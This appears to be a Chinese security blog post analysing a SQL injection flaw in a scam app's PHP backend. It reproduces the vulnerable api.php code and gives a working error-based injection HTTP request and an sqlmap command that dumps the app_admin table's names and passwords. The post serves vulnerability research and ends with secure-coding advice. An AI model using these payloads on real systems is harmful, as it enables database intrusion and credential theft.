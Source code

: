> **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxOTM2MDYwNg==&mid=2247515236&idx=1&sn=fc3c5c6dbf3b2cbc32405070170609d6

#  2025某新版诈骗双端APP通讯录前台SQL注入漏洞  
原创 子午猫  网络侦查研究院   2025-07-13 00:03  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4kCmTUe2v2bujwd3M0M1ICStsbhAHWtth8dQwoBBFoNDafDAzGbm1sCA8bqVWIjs40A8lu9rtuD4yeOOwDNadg/640?wx_fmt=png "")  
  
#   
  
在当今数字化时代，各类应用程序如潮水般涌现，然而，其中不乏一些隐藏着安全隐患的恶意程序，某新版诈骗双端APP便是如此。这款APP不仅试图获取用户的双端通讯录、相册、短信、定位以及已安装APP信息，其代码还毫无加密措施，搭建过程也相对简单，安卓端为原生纯源码，iOS端则是uniapp纯源码，具有一定的迷惑性，引得不少人寻找使用。通过Fofa指纹识别，发现它由Thinkphp5提供高性能框架开发而生，且从后台信息可知其框架为ThinkPHP 5.0.24 ，Debug处于开启状态。接下来，我们将对该APP存在的前台SQL注入漏洞进行详细分析与复现。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREk6pMgmCibhxuVWsibfnrDdybRGkCcWszWmGHMgOOTBAf2f8S5viaKibPBA/640?wx_fmt=other&from=appmsg "")  
## 0x00 漏洞产生根源剖析  
### 漏洞触发点及相关代码逻辑  
  
该漏洞位于APP的 /api.php 文件中。从代码结构来看，通过GET方式传入ID参数，此参数直接进入SQL查询语句，并且在传入过程中未进行任何过滤处理，这就为SQL注入漏洞的产生埋下了隐患。同时，代码中还要求通过POST方式传入img参数，然而实际上传文件的后缀却被写死为.png 。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREd8El63icYY7Xx7nK3n3xGv87YTsEaia3xYJSqOUJt3Zd3trLLpvnx9hw/640?wx_fmt=other&from=appmsg "")  
  
具体来看相关代码：  

```
header('Access-Control-Allow-Origin:*');
header('Content-Type:text/plain;charset=utf-8');
require('conn.php');

function imgbc($image)
{
    $imageName = &#34;25220_&#34;.date(&#34;His&#34;,time()).&#34;_&#34;.rand(1111,9999).'.png';
    if (strstr($image,&#34;,&#34;)){
      $image = explode(',',$image);
      $image = $image[1];
    }
    $path = &#34;./uploads/&#34;.date(&#34;Ymd&#34;,time());
    if (!is_dir($path)){ //判断目录是否存在 不存在就创建
      mkdir($path,0777,true);
    }
    $imageSrc= $path.&#34;/&#34;. $imageName; //图片名字
    $r = file_put_contents($imageSrc, base64_decode($image));//返回的是字节数
    return&#34;/uploads/&#34;.date(&#34;Ymd&#34;,time()).&#34;/&#34;. $imageName;
}

if(isset($_POST['img'])){
    $img = imgbc('data:image/jpg;base64,'.$_POST['img']);
    $userid = $_GET['id'];
    $sqlUser = &#34;select * from app_user where name = '$userid'&#34;;
    $resultUser = mysqli_query($conn,$sqlUser);
    if ($resultUser->num_rows > 0) {
        $row = $resultUser->fetch_assoc();
        $user_id = $row['id'];
        $sql = &#34;INSERT INTO app_xiangce VALUES (null, '&#34;.$user_id.&#34;',null,'&#34;.$img.&#34;', '&#34;.time().&#34;')&#34;;
        if ($conn->query($sql) == TRUE) {
            echo&#34;成功&#34;;
        } else {
            echo&#34;Error: &#34;. $sql. &#34;<br>&#34;. $conn->error;
        }
    }else{
         echo&#34;Error: &#34;. $sql. &#34;<br>&#34;. $conn->error;
    }
}

```

  
在这段代码中，当通过POST方式接收到img参数后，先经过imgbc函数处理，生成一个以特定格式命名的图片路径。然后获取通过GET传入的id参数，用于查询app_user表中对应的用户信息。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREEiaXtZNLcCaNFlZRrTU2cgf1VZ7GLeITwWGfgAbrQmmeiadQibLfjDaGQ/640?wx_fmt=other&from=appmsg "")  
  
如果查询到用户信息，便将相关数据插入到app_xiangce表中。但由于id参数直接用于SQL查询且未过滤，攻击者可以利用这一点构造恶意的SQL语句，从而实现SQL注入攻击。  
## 0x01 漏洞复现过程详解  
### 利用Payload进行爆库  
  
我们可以使用以下Payload来进行爆库操作：  

```
POST /api.php?id='+AND+EXTRACTVALUE(6165,CONCAT(0x5c,(SELECT+(USER()))))--+KrBJ HTTP/1.1
Host: 192.168.140.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 5

img=1

```

  
这个Payload利用了MySQL的EXTRACTVALUE函数，通过构造特殊的字符串，将查询的用户信息以一种可被识别的方式暴露出来。在这个Payload中，CONCAT函数将特定字符与查询的用户名连接起来，而EXTRACTVALUE函数则会尝试解析这个构造的字符串，由于其中包含不符合XML格式的内容，从而导致数据库报错，在报错信息中便会显示出我们想要获取的用户名。  
### 使用sqlmap工具进一步挖掘  
  
除了手动构造Payload进行简单的爆库操作外，我们还可以借助强大的sqlmap工具来深入挖掘数据库信息。例如，使用以下命令：  

```
Python sqlmap.py -r a.txt --level=3 --dbms=mysql -T app_admin -C name,password --dump

```

  
这里的 -r 参数指定了包含HTTP请求的文件a.txt ， --level参数设置为3表示使用较高的检测等级，以提高检测的准确性和全面性。 --dbms参数指定数据库类型为mysql 。 -T参数指定要查询的表为app_admin ， -C参数指定要获取的列分别为name和password ，最后 --dump参数表示将查询到的数据进行转储，也就是获取并显示这些数据，从而爆出管理员表的账密信息。  
  
这种SQL注入漏洞的存在，对于使用该APP的用户以及相关系统的安全性都构成了严重威胁。一方面，攻击者可以通过爆库获取用户的敏感信息，如账号密码等，进一步实施诈骗等恶意行为；另一方面，对于APP运营方来说，数据库的泄露可能导致严重的法律和声誉问题。因此，及时发现并修复此类漏洞，对于保障用户和系统的安全至关重要。同时，开发者在开发过程中应加强对输入参数的过滤和验证，遵循安全的编程规范，从源头上杜绝此类漏洞的产生。  
  
  
  
  
**END**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4kCmTUe2v2bujwd3M0M1ICStsbhAHWtt0VVqCfFLOVnpmeNJ3R59doWtI0AmqLn4Qkic8aAS06l0pATjcYx10zw/640?wx_fmt=png "")  
  
  
